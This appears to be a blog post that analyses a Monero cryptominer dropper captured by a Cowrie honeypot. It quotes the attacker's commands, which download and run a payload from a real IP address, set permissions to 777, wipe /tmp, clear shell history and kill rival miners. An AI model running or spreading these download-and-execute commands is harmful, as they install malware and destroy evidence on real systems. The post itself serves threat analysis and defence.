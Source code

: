 ```yaml
---
layout: post
title:  "Another-miner-caught-by-cowrie"
by:     "Michael Meade"
---
```

`nc 1 1; rm s.sh; wget http://45.148.10.186/s.sh; busybox wget http://45.148.10.186/s.sh; curl -O http://45.148.10.186/s.sh; chmod 777 *; sh s.sh; cat /etc/issue`


The text above is what the attacker entered in commmand prompt of the honey pot. Before the attackers attempted to download the payload, the actor uses `rm s.sh`
to remove any other copies of itself. After that is done the command will use both curl and wget to download the payload from `http://45.148.10.186/s.sh`.
The attacker used both curl and wget so that if one of the tools was not installed, the attacker could still download the payload.

After the attacker downloaded s.sh the attackers use the command `chmod 777 *` to change all the files and folders permissions to 777.
After doing that the attacker s.sh, then the attacker uses the cat command to view the file located at `/etc/issue`.


`
cd /tmp
wget http://45.148.10.186/so
wget http://45.148.10.186/config.json
curl -O http://45.148.10.186/so
curl -O http://45.148.10.186/config.json
busybox wget http://45.148.10.186/config.json
busybox wget http://45.148.10.186/so
chmod 777 *
./so
rm -rf *
rm config.json
history -c
pkill xmrig
pkill xmra64
pkill rx64
pkill cnrig
pkill xmrigMiner
echo wedonehereboiz-allwgetz
`
The contents above is what was in s.sh. Please note that the attacker orginally has all that as one line, they used ; to join all the lines into one long string. 
I created a new line at every `;` to make it easier to read. 

First the script will change the directory to `/tmp`. After the scrip changes the the directory, the script will download a file named so that is hosted at:'
`http://45.148.10.186/so`. After the `so` file is downloaded, the script will download a json file named config.json. This file is located at: `wget http://45.148.10.186/config.json`
This json file is the miners config file, its where the attacker stores all the settings that the miner will read. Information like the pool, the XMR address and other settings for the miner to use.  
As the same before the attackes will attempt to use curl to make sure the files are downloaded. 

Once again the attackes will change all the files and direcories permissions to 777.  The script will than run the `so` file and also use the `rm -rf *` command to 
remove all the contents of `/tmp`.  The script will also use the rm command to remove the mine config.  The script will use the   `history -c` command to remove
systems history file contents. After all that is done, the script uses the pkill command to kill other common proccesses. The next part is where it gets kinda weird.
The attcker then following command `echo wedonehereboiz-allwgetz` to echo the text "wedonehereboiz-allwgetz".

### The Miner Config
The miner config that the attacker downloaded was using the following pool: `pool.supportxmr.com:7777`

The Monero addresst he attacker was using is: `44UQBpc6HKtGDymsvkW7995ftPTjoCi1Se5QEGPG2HMYfrw1DMp3thnCutiCQFPWvVcZqYVdwN6bUgMbAMou1skr8hxmZVv`.

![44UQBpc6HKtGDymsvkW7995ftPTjoCi1Se5QEGPG2HMYfrw1DMp3thnCutiCQFPWvVcZqYVdwN6bUgMbAMou1skr8hxmZVv-pools-info](https://i.imgur.com/wsallzy.png)
